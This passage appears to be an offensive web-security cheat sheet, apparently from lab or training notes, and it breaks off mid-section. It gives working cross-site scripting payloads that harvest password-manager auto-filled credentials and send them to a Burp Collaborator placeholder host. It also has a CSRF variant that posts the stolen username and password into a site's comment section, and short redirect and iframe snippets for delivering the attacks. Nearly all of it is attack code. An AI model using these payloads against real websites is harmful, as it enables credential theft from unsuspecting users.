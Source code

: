 ### Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain.

```HTML
<input name='username' id='username'>
<input type= 'password' name='password' onchange="
if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value)
});">
```

CSRF way to write the password + username in the comment section:

```HTML
<input name='username' id='username'>
<input type= 'password' name='password' onchange="
    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();
    var user = document.getElementsByName('username')[0].value
    data.append('csrf', token);
    data.append('postId', 3);
    data.append('comment', user+'~'+this.value);
    data.append('name', 'victime');
    data.append('email', 'get@gmail.com');
    fetch('/post/comment',{
        method: 'POST',
        mode: 'no-cors',
        body: data
});">
```

### Deliver Exploit

#### Send user to a malicious website

When an event isn't required:

```html
<script>
    location = 'URL'
</script>
```

When an event is required like `onhashchange`:

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

When u need to redirect twice the user:
